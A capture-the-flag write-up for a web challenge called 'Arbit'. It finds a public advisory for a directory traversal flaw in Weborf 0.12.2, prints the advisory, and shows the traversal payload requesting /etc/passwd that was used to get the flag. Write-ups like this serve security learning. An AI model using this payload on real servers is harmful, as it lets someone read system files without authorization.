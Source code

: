 # Arbit

## Overview

- Overall difficulty for me: Very easy

**In this challenge, we can spawn a docker instance:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027081634.png)

## Find the flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027081732.png)

**Hmm... `Weborf/0.12.2`. Let's search for public exploit via `searchsploit`:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/Arbit]
└─# searchsploit Weborf
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
weborf 0.12.2 - Directory Traversal                                  | linux/remote/14925.txt
[...]                                                                |
--------------------------------------------------------------------- ---------------------------------
```

**Oh! It's vulnerable to Directory Traversal. Let's mirror that txt file:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/Arbit]
└─# searchsploit -m 14925
```

**14925.txt:**
```
Title: Weborf httpd <= 0.12.2 Directory Traversal Vulnerability
Date: Sep 6, 2010
Author:	Rew
Link: http://galileo.dmi.unict.it/wiki/weborf/doku.php
Version: 0.12.2
Tested On: Debian 5
CVE: N/A

=============================================================

Weborf httpd <= 0.12.2 suffers a directory traversal
vulnerability.  This vulnerability could allow
attackers to read arbitrary files and hak th3 plan3t.

instance.c : line 240-244
------------------------------
void modURL(char* url) {
    //Prevents the use of .. to access the whole filesystem  <-- ORLY?
    strReplace(url,"../",'\0');

    replaceEscape(url);
------------------------------

Exploit: GET /..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

==============================================================
```

**Let's copy and paste that payload!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027082137.png)

We found the flag!

# Conclusion

What we've learned:

1. Exploiting Weborf 0.12.2 Directory Traversal